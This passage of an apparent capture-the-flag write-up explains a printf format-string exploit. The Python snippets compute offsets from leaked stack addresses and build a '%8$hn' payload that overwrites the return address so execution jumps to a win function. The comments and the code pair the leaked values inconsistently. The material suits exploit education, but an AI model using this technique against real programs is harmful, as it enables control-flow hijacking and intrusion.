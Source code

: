 From there two values and two leaked values from the stack, we can calculate the offsets.

```python
leak = leak.split(".")
# offset_win = leak[-3] - win_addr <=> win_addr = leak[-3] - offset_win
offset_win = 0x55f6d7821080 - 0x55f6d7821165
#offset_ret = leak[-2] - ret_addr <=> ret_addr = leak[-2] - offset_ret
offset_ret = 0x7ffe2f894cc0 -0x7ffe2f894c68

ret_addr = p64(int(leak[-3], 16)-offset_ret)
win_addr =  p64(int(leak[-2], 16)-offset_win)

```

### Generating The Payload

The preparation is done. Now we need to overwrite the return address with the win address, easy right?
We just send the program something like: `ret_addr+"%"+str(first_byte)+"x%hn"+ret_addr+1+"%"+str(first_byte)+"x%hn"...`
Unfortunately not. The ret_address contains null bytes.
The *printf* function only prints until the first null byte.
Thus we need to put the ret_addr after the format string.
Furthermore, we can only do the *%n* once, as it needs an address to write to, and *ret_address* contains a null byte.

As the unaltered return address points somewhere in the code segment, we only need to alter the last two bytes to let it point to *win*.

```python
last_two_bytes = int("0x"+str(hex(int(leak[-2], 16)-offset_win))[-4:], 16)
#change the two last bytes of the return to point to the win function
len_last_two = len(str(last_two_bytes))
payload = "a"*(8-len_last_two)+"%"+str(last_two_bytes-(8-len_last_two))+"x%8$hn."+ret_addr
```

Lets have a closer look at the payload:
- The first part `"a"*(8-len_last_two)` is simply some padding, such that the *ret_address* will be aligned on the stack.

- The second part `"%"+str(last_two_bytes-(8-len_last_two))+"x"` writes *last_two_bytes*  many characters to the stdout (including the padding bytes from the first payload part).

- The third part `%8$hn` writes the number of printed/written characters the 8th address on the stack. Which is in our case our *ret_addr* which is written to the stack in part four of the payload.

- The fourth part *ret_addr* is just the return address of the stack frame

*Note*: To find at which position the *ret_addr* is, you can replace `%i$hn` with `%i$lx`, if you find that the correct return address is printed, you can replace it back to `%i$hn`.

### Grabbing The Flag

After the *close_borders* function returns, the win function should be executed and we can grab the flag.
